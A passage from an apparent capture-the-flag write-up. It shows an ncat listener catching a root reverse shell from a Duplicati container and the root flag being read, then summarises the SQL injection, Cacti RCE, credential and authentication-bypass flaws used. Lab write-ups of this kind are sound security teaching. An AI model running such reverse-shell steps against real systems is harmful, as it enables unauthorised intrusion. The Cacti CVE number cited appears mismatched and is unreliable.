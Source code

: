 We setup our ncat listener on our attacker machine, execute the backup we just made and we see the listener catch the reverse shell:
```shell
❯ sudo ncat -l 10.10.14.235 -nvp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.235:4444
Ncat: Connection from 10.129.177.45:35284.
bash: cannot set terminal process group (144): Inappropriate ioctl for device
bash: no job control in this shell
root@c6f014fbbd51:/app/duplicati# whoami
whoami
root
root@c6f014fbbd51:/app/duplicati# cat /source/root/root.txt
cat /source/root/root.txt
b1ac7efb921d97391b16b---snip---
```

## Vulnerabilities Identified

1. **SQL Injection in Password Reset**
   - Time-based blind SQL injection vulnerability
   - Allowed extraction of database contents

2. **Cacti Remote Code Execution (CVE-2023-28858)**
   - Unauthenticated XML injection leading to RCE
   - Allowed initial foothold on the system

3. **Password Storage Issues**
   - Cleartext database credentials in configuration files
   - Weak password hashing mechanisms

4. **Duplicati Authentication Bypass**
   - Improper session handling
   - Allowed privilege escalation to root

## References
- [CVE-2023-28858: Cacti Pre-Authentication Remote Code Execution](https://nvd.nist.gov/vuln/detail/CVE-2023-28858)
- [CWE-89: Improper Neutralization of Special Elements used in an SQL Command](https://cwe.mitre.org/data/definitions/89.html)
- [CWE-287: Improper Authentication](https://cwe.mitre.org/data/definitions/287.html)
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)